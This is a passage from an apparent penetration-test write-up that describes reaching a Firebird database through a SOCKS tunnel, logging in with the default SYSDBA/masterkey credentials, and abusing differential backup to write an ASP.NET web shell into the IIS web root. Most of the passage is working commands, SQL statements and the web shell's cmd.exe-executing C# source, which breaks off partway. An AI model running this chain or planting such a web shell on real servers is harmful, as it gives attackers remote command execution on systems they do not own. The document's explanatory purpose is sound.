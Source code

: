 From there, we installed the `firebird` SQL shell and we noticed the default credentials were working:

```bash
$ revsocks -listen 0.0.0.0:9090 -pass [...]

$ apt install firebird3.0-utils

$ cat proxychains.conf
[...]
socks5 	127.0.0.1 1080

$ proxychains isql-fb

SQL> CONNECT [::1]/3050:a user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (open)" operation for file "a"
-Error while trying to open file
-The system cannot find the file specified. 
SQL> 
```

We then used the database differential backup mode of `Firebird`, as stated in the blogpost, in order to make the service create a file on the IIS working directory that contained an [ASP.net web shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx):

```bash
$ proxychains isql-fb

> CONNECT '[::1]/3050:C:\non-existent-file33' user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
ALTER DATABASE END BACKUP;
ALTER DATABASE DROP DIFFERENCE FILE;
DROP DATABASE;

CREATE DATABASE '[::1]/3050:C:\non-existent-file33' user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
CREATE TABLE a( x blob);
ALTER DATABASE ADD DIFFERENCE FILE 'C:\inetpub\wwwroot\foo242424.aspx';
ALTER DATABASE BEGIN BACKUP;
INSERT INTO a VALUES ('

<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
	ProcessStartInfo psi = new ProcessStartInfo();
	psi.FileName = "cmd.exe";
	psi.Arguments = "/c "+arg;
	psi.RedirectStandardOutput = true;
	psi.UseShellExecute = false;
	Process p = Process.Start(psi);
	StreamReader stmrdr = p.StandardOutput;
	string s = stmrdr.ReadToEnd();
	stmrdr.Close();
	return s;
```